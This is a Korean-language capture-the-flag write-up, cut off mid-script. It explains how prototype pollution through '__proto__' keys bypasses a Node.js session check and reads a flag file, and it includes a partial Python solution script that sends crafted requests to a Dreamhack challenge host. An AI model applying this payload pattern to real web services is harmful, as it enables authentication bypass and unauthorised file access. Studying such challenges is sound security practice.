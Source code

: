 그래서 내가 생각한 시나리오는 아래와 같았다.

1. userid로 `__proto__`를 줘서 `users[__proto__]`를 부르게 한다.
2. ws_name도 `__proto__`를 줘서 `users[__proto__].workspaces[__proto__]`를 부르게 한다.
3. f_name으로 아무거나 줘서 `user[__proto__].workspaces[__proto__][f_name]`이 `flag`를 반환하게 한다.
4. PP로 `user[__proto__].base_dir`이 `/usr/src/app`을 반환하게 한다.

따라서 현재까지의 시나리오를 위해 만들어야 할 값은 아래와 같다.

* `{}.__proto__.workspace = "asdf"` -> `users[__proto__].workspaces`가 `undefined`가 되지 않도록
* `{}.__proto__.asdf = "flag"` -> `user[__proto__].workspaces[__proto__][f_name]`이 `flag`를 반환하도록
* `{}.__proto__.base_dir = "/usr/src/app"` -> `user[__proto__].base_dir`이 `/usr/src/app`을 반환하도록

그런데 코드를 조금 더 살펴보면 문제가 있다.\
9번째 줄의 분기를 통과하는 token을 만들어야 한다.

```js
if(!check_session(userid, token))
    return res.status(403).json({ok: false, err: "Failed to validate session"});
```

`check_session` 함수는 다음과 같다.

```js
function check_session(userid, token) {
    const sess = tokens[token]
    if(!sess) return false;
    if(sess.owner != userid) return false;
    if(sess.expire < Date.now() / 1000){
        tokens.delete(token);
        return false;
    }
    else return true;
}
```

해당 함수 또한 PP를 이용해서 통과하기 위해 token을 `__proto__`로 줬을 때의 필요한 조건을 생각하였다.

1. `tokens[__proto__].owner`가 `__proto__`를 반환
2. `tokens[__proto__].owner`가 매우 큰 정수를 반환

위 두 조건을 만족하면 통과할 수 있는데\
1번 조건은 `{}.__proto__.owner = "__proto__"`를 줘서 쉽게 넘어갈 수 있다.

2번 조건은 `{digit 문자열} < {정수}` 식이 `{정수} < {정수}`로 인식되는 점을 이용해서\
`{}.__proto__.expire = "999999999999999"`를 줘서 넘어갈 수 있다.

위의 PP를 모두 만들고 파일을 부르면 플래그를 얻을 수 있다.

> Solution Script

```python
import requests
from base64 import b64decode

URL = "http://host2.dreamhack.games:12391/api"
# URL = "http://localhost:8888/api"

proto_user = "__proto__"
user = "qqq"
pw = "asdfasdfasdf"
ws = "__proto__"

print(requests.post(URL + "/users", json={"userid":user,"pass":pw}).json())
c = requests.post(URL + "/users/auth", json={"userid":user,"pass":pw}).json()
print(c)
token = c['token']

### users[qqq].workspaces["__proto__"].expire = "99999999999999999999999999"
c = requests.post(URL + f"/users/{user}/__proto__", json={"userid":user,"token":token,"file_name":"expire","file_content":"zzlol","file_path":"99999999999999999999999999"}).json() 
```
